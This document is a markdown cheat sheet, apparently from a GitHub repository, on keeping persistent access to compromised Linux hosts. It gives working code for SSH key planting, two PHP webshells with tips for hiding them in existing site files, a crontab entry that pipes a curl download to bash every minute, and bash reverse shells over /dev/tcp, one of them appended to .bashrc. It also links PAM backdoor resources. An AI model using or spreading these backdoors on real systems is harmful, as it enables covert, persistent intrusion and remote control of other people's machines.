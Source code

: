 #Linux 
## SSH backdoor
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.

`ssh-keygen`

Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized_keys

>Give the private key the right permissions: `chmod 600 id_rsa`
>Log in to the machine: `ssh -i id_rsa root@ip`

## PHP backdoor
If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in : /var/www/html

What you have to know is that, whatever you leave in /var/www/html, will be available for everybody to use in their browser.

Simple php webshell that executes the command passed in the GET or POST cmd parameter 
```php
<?php  
if(isset($_REQUEST['cmd'])){  
        echo "<pre>";  
        $cmd = ($_REQUEST['cmd']);  
        system($cmd);  
        echo "</pre>";  
        die;  
}  
?>
```
Another way to achieve the same thing
```php
<?php  
    if (isset($_REQUEST['cmd'])) {  
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
    }  
?>
```

>Tips
>1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
>2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob backdoor
Once you got root access on any host, you can add any scheduled task in /etc/crontab. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Add this line into our cronjob file :

`* *     * * *   root    curl http://<yourip>:8080/shell | bash`  

Notice that we put a `*` star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply :

```shell
#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1
```

We would have to run an HTTP server serving our shell.

You can achieve this by running : "python3 -m http.server 8080"  

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

*Don't forget to listen on your specified port with "nc -nvlp port"*

## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".

`echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc`

## pam_unix.so backdoor
https://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html
https://github.com/zephrax/linux-pam-backdoor
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c